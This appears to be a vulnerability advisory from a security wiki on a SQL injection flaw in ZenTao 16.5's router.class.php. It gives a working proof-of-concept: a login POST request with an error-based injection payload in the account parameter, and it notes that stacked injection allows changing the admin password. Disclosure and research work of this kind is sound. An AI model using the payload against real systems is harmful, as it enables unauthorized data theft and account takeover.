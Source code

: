 # Zen Tao 16.5 router.class.php SQL injection vulnerability

## Vulnerability Description

Zen Tao 16.5 There is a SQL injection vulnerability in the router. Class.php file. The attacker can obtain sensitive database information through the vulnerability, endangering the security of the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zen Tao 16.5</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651845742331-80eb4af4-3ecb-465a-b9f4-6b9f211bce3a.png)

`16.5 to 16.5.1 versions` updated the `framework/base/router.class.php` file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651970702476-e791e909-c6ad-4386-a9ed-bd0f93454d92.png)

`account parameter` uses the `quote method` to filter SQL statements

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651971046505-0dfe20a0-ed9b-4704-a233-fbf1967c0248.png)

You can see that this method mainly adds escape to fields, so it can be inferred that SQL injection exists in version 16.5, and tracks debugging and testing SQL injection

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651971584690-5654e6cd-48ca-4f5e-a552-7c6d6648f968.png)

Verify the POC as follows, where stack injection also exists, and the administrator password can be modified through SQL statements, etc.

```java
POST /user-login.html

account=admin%27+and+%28select+extractvalue%281%2Cconcat%280x7e%2C%28select+user%28%29%29%2C0x7e%29%29%29%23
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1651845951752-a3b596a1-d07e-4283-9373-64f5d4c95f87.png)